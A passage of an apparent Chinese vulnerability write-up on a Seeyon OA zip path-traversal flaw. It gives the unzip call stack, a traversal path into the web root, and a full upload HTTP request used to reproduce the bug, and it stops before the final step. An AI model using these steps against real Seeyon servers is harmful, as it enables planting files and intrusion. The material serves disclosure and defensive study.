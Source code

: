 分析完成，自解压接口的调用堆栈如下：

    
    
    unzip(String, String, Map):107, OfdJavaZipUtil (com.seeyon.apps.govdoc.gb.util)  
    getOfdMetadata(Long, File, boolean, Map):1455, GovdocGBManagerImpl (com.seeyon.apps.govdoc.gb.manager.impl)  
    getOfdMetadata(Long):1427, GovdocGBManagerImpl (com.seeyon.apps.govdoc.gb.manager.impl)  
    invoke(int, Object, Object[]):-1, GovdocGBManagerImpl$$FastClassBySpringCGLIB$$199dbca (com.seeyon.apps.govdoc.gb.manager.impl)  
    getOfdMetadata(Long):-1, GovdocGBManagerImpl$$EnhancerBySpringCGLIB$$d8d6a84b (com.seeyon.apps.govdoc.gb.manager.impl)  
    getOfdMetaDataFromOfdFile(Long):3817, EdocApiImpl (com.seeyon.apps.edoc.api)  
    invokingForm(HttpServletRequest, HttpServletResponse):508, MainbodyController (com.seeyon.ctp.common.content.mainbody)  
    

  

### 0x02 漏洞复现

第一步，制作一个zip，其内的文件需要穿越到如下路径

    
    
    ../../../../ApacheJetspeed/webapps/ROOT/ceshi.txt  
    

第二步，上传压缩包，获取 fileUrl 参数

    
    
    POST /seeyon/fileUpload.do HTTP/1.1  
    Host: 192.168.77.5  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36 uacq  
    Cookie: JSESSIONID=EB4A0560A238FF48DF116C3364FD0F5A  
    Content-Type: multipart/form-data; boundary=--------------------------662773377827359540248053  
    Content-Length: 1149  
    Connection: close  
      
    ----------------------------662773377827359540248053  
    Content-Disposition: form-data; name="method"  
      
    processUploadForCap4  
    ----------------------------662773377827359540248053  
    Content-Disposition: form-data; name="file"; filename="hello.jpg"  
    Content-Type: image/jpeg  
      
    HelloWorld  
    ----------------------------662773377827359540248053--  
    

![]()

  

可以看到文件上传到了服务器上，同时文件信息写入了数据库中

![]()![]()
